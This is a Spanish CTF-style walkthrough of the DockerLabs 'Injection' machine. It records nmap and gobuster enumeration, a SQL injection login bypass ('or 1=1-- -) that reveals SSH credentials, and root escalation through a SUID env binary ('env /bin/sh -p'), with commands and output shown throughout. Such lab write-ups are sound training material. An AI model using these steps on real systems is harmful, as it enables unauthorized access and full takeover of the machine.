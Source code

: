 # Máquina Injection
- Dificultad: muy fácil

## Escaneo con nmap
<p>Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.</p>

```
nmap -sCV -sS -n -Pn -p- 172.17.0.2

```

```
Nmap scan report for 172.17.0.2
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
<p>El puerto 22 y el 80 estan abiertos con los servicios SSH y Apache, primero revisamos el servicio web y utilizamos gobuster para buscar posibles directorios.</p>

## Gobuster

```
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/.html                (Status: 403) [Size: 275]
/config.php           (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================


```
<p>Encontramos dos archivos php, en config.php no encontré nada asi que revisamos el index.php.</p>

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)


<p>Probamos una inyección SQL simple colocando 'or 1=1-- - en el nombre de usuario y cualquier cosa en la contraceña.</p>

![captura-loginhack](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-21-37.png)

<p>Logramos logearnos y  vemos que hay un usuario y una contraseña, los usamos en el ssh.</p>

![captura-logeado](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-22-21.png)

## SSH

```
ssh 172.17.0.2 -l dylan

```
<p>Nos pide la contraceña, la escribimos y estamos dentro.</p>

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 

```

## Escalando privilegios

<p>Buscamos binarios con permisos SUID.</p>

```
find / -perm -4000 -user root 2>/dev/null

```

```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

<p>Aparece el binario /usr/bin/env asi que ejecutamos el sigiente comando desde la raiz del sistema y estamos como root.</p>

```
./usr/bin/env /bin/sh -p

```

```
# whoami
root
# 
```
